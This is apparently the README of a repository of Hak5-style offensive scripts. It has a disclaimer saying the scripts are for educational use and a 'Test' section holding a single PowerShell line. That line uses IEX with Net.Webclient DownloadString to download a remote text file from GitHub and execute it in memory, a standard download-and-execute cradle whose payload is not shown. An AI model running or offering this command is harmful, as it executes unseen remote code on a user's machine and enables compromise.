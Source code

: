 # hak5-friends
The whole gang is here

I am not liable for any damages.
Scripts are for educational use only.

God speed.

# Test

IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/MartinVNavarro/hak5-friends/refs/heads/main/test.txt')
